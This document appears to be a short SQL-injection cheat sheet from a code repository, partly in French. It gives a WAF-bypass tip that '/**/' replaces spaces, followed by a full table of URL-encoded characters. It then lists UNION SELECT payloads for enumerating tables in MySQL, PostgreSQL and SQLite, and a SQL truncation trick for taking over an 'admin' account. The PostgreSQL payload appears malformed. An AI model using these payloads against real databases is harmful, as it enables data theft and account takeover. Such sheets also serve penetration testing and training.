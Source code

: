 
# SQL injection

- WAF bypass

/**/ fonctionne comme un espace

    espace 	%20 	%20
    ! 	%21 	%21
    " 	%22 	%22
    \#  %23 	%23
    $ 	%24 	%24
    % 	%25 	%25
    & 	%26 	%26
    ' 	%27 	%27
    ( 	%28 	%28
    ) 	%29 	%29
    \* 	%2A 	%2A
    \+ 	%2B 	%2B
    , 	%2C 	%2C
    \- 	%2D 	%2D
    . 	%2E 	%2E
    / 	%2F 	%2F
    0 	%30 	%30
    1 	%31 	%31
    2 	%32 	%32
    3 	%33 	%33
    4 	%34 	%34
    5 	%35 	%35
    6 	%36 	%36
    7 	%37 	%37
    8 	%38 	%38
    9 	%39 	%39
    : 	%3A 	%3A
    ; 	%3B 	%3B
    < 	%3C 	%3C
    = 	%3D 	%3D
    \> 	%3E 	%3E
    ? 	%3F 	%3F
    @ 	%40 	%40
    A 	%41 	%41
    B 	%42 	%42
    C 	%43 	%43
    D 	%44 	%44
    E 	%45 	%45
    F 	%46 	%46
    G 	%47 	%47
    H 	%48 	%48
    I 	%49 	%49
    J 	%4A 	%4A
    K 	%4B 	%4B
    L 	%4C 	%4C
    M 	%4D 	%4D
    N 	%4E 	%4E
    O 	%4F 	%4F
    P 	%50 	%50
    Q 	%51 	%51
    R 	%52 	%52
    S 	%53 	%53
    T 	%54 	%54
    U 	%55 	%55
    V 	%56 	%56
    W 	%57 	%57
    X 	%58 	%58
    Y 	%59 	%59
    Z 	%5A 	%5A
    [ 	%5B 	%5B
    \ 	%5C 	%5C
    ] 	%5D 	%5D
    ^ 	%5E 	%5E
    _ 	%5F 	%5F
    \` 	%60 	%60
    a 	%61 	%61
    b 	%62 	%62
    c 	%63 	%63
    d 	%64 	%64
    e 	%65 	%65
    f 	%66 	%66
    g 	%67 	%67
    h 	%68 	%68
    i 	%69 	%69
    j 	%6A 	%6A
    k 	%6B 	%6B
    l 	%6C 	%6C
    m 	%6D 	%6D
    n 	%6E 	%6E
    o 	%6F 	%6F
    p 	%70 	%70
    q 	%71 	%71
    r 	%72 	%72
    s 	%73 	%73
    t 	%74 	%74
    u 	%75 	%75
    v 	%76 	%76
    w 	%77 	%77
    x 	%78 	%78
    y 	%79 	%79
    z 	%7A 	%7A
    { 	%7B 	%7B
    | 	%7C 	%7C
    } 	%7D 	%7D
    ~ 	%7E 	%7E
    	%7F 	%7F
    ` 	%80 	%E2%82%AC

- Retreive tables

1.  Mysql

       union  select group_concat(table_name) from information_schema.tables 
		
3. PostgreSQL

       UNION SELECT * FROM string_agg(tablename, ',') WHERE schemaname != 'pg_catalog'  AND schemaname != 'information_schema';

3. SQLite

       union select group_concat(name) from sqlite_master WHERE type='table'

- SQL Truncation

e.g. :

    Update Users set password = $password where username= $login
	login = varchar(25)
	with $login = 'admin(blankspace x 19)x'

